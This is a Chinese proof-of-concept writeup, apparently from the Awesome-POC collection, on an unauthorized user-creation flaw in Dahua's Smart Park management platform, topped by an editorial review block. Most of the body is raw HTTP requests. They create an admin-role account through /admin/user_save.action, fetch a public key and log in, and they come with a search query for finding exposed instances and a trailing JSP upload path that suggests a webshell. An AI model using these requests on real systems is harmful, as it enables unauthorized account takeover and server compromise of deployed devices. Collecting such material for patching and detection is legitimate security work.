




# 大华智慧园区 user_save.action 账户创建及后续上传链线索

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：大华智慧园区综合管理平台
- 本文讨论：user_save.action未授权创建用户，后续声称文件上传
- 版本、权限与配置前提：创建请求带JSESSIONID来源不明；WPMS公钥登录与subSystemToken
- 资料类型：账户创建/登录链，上传步骤缺失；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题user_save.action任意文件上传，但实际第一请求只创建账户，全文没有上传请求，仅末尾JSP路径
- 公钥后固定加密密码/超长timestamp没说明生成方式，样例不能跨环境直接用
- 缺创建返回/角色1含义与匿名会话来源；软件管理平台分类应明确
- 已落实的文本修订：HTTP 报文围栏改为 http；标题与正文证据对齐。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- user_save.action 请求的直接作用是创建账户；上传是后续另一步，原文没有完整上传请求。标题已按可见账户操作校正，仍保留加密字段、会话、截图及后续路径线索。

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 账户操作会新增用户或更改认证材料，可能使原用户失去访问；须核对角色、操作前账户状态及恢复路径

### 待核与来源

- 实际上传端点/鉴权/版本及公钥加密方法待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现



验证POC

```http
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```


```http
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```



```http
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```



```
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```



```
/upload/axqvssmz.jsp
```


---

> 来源：Threekiii/Awesome-POC
